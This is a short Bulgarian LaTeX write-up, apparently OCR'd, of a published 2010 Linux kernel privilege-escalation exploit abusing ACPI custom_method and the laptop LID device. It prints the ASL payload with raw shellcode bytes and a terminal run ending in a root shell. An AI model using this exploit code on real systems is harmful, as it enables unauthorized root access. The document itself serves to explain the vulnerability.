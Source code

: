 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\subsection{Exploit}
\paragraph{}
Публикация за exploit излиза на 2010-12-18. Автор е Jon Oberheide\footnote{\url{http://www.exploit-db.com/exploits/15774/}}.
\paragraph{}
Той компилира ASL\footnote{ACPI Source Language} код до AML\footnote{ACPI Machine Language}, който презаписва ACPI методa, използван при промяна на статуса на LID устройството (при отваряне и затваряне на капака на лаптоп). Когато методът се извика, той презаписва \textit{OperationRegion} на физическият адрес, където \textit{sys\_futimesat} се намира и презаписва паметта чрез \textit{Store}, като по този начин стига до privilege escalation при извикването на \textit{sys\_futimesat}.
\begin{verbatim}
DefinitionBlock ("lid.aml", "SSDT", 2, "", "", 0x00001001) {
  Method (\_SB.LID._LID, 0, NotSerialized) {
    OperationRegion (KMEM, SystemMemory, PHYADDR, 0x392)
    Field(KMEM, AnyAcc, NoLock, Preserve) {
      HACK, 0x392
    }
    Store (Buffer () {
      0x55, 0x48, 0x89, 0xe5, 0x53, 0x48, 0x83, 0xec,
      0x08, 0x48, 0xc7, 0xc3, 0x24, 0x24, 0x24, 0x24,
      0x48, 0xc7, 0xc0, 0x24, 0x24, 0x24, 0x24, 0xbf,
      0x00, 0x00, 0x00, 0x00, 0xff, 0xd0, 0x48, 0x89,
      0xc7, 0xff, 0xd3, 0x48, 0xc7, 0xc0, 0xb7, 0xff,
      0xff, 0xff, 0x48, 0x83, 0xc4, 0x08, 0x5b, 0xc9,
      0xc3 }, HACK)
    Return (One)
  }
}
\end{verbatim}
\paragraph{}
Този exploit се отнася само за 64-битови ОС и зависи от наличието на LID устройство.
\begin{verbatim}
$ gcc american-sign-language.c -o american-sign-language
$ ./american-sign-language
[+] resolving required symbols...
[+] checking for world-writable custom_method...
[+] checking for an ACPI LID device...
[+] poisoning ACPI tables via custom_method...
[+] triggering ACPI payload via LID device...
[+] triggering exploit via futimesat...
[+] launching root shell!
# id
uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}
\end{document}
